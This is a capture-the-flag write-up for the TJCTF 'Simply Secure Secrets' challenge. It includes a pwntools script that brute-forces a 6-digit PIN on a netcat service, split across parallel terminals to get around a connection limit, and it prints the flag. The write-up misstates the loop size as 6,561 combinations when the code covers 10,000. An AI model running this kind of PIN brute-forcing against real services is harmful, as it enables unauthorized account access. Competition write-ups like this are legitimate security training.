 # Simply Secure Secrets
### Miscellaneous: 50 points
#### Solved by: Vermillion
```
Written by evanyeyeye

nc p1.tjctf.org 8000
```
I really don't like this challenge, but moving on.

Netcatting into the service, we are greeted with 6 options:

<img src='https://cdn.discordapp.com/attachments/532350033241309226/567520116942700564/unknown.png'>

After messing around with the commands, it appears that this service can store some text under a name, which is protected by a 6 digit pin. I tried looking at the Upgrade option, but nothing seemed to come out of it, and storing a secret seemed to have no effect on anything. Frustrated, I decided to brute force the pin.

<img src="https://cdn.discordapp.com/attachments/532350033241309226/567520657890476034/unknown.png">

Evan's pin is 000000, but contains nothing. The most likely candidate for the flag is the secret tjctf. I wrote a python program to begin bruteforcing the pin. It appeared as though after around 8000 commands, it force-closed the connection, so I updated my script to match:
```
from pwn import *
import string
import itertools
import sys
i = str(sys.argv[1])
r = remote('p1.tjctf.org',8000)
list = []
for combo in itertools.product(string.digits, repeat = 4):
	list.append(i+''.join(combo))

for pin in list:
	r.sendline('r')
	x = r.recv()
	r.sendline('tjctf')
	x = r.recv()
	r.sendline(pin)
	x = r.recvline()
	if 'Invalid pin' not in x:
		print x, pin
		break

print 'done'
```
My script bruteforced the last 4 digits (9^4 combinations or 6561 combinations) and concatenated that after a command-line supplied 2 digit string. This allowed me to open several terminals concurrently to speed up the process, each with a different starting 2 digits. The 72 terminal succeeded:

<img src="https://cdn.discordapp.com/attachments/532350033241309226/567521998935425024/unknown.png">

flag: `tjctf{1_533_y0u_f0rc3d_y0ur_w4y_1n}`

After the competition, I asked the writer what the intended solution was, and he said that it was indeed brute force as the flag suggested. Which is pretty dumb; 6 digits is way too much for a bruteforce challenge.
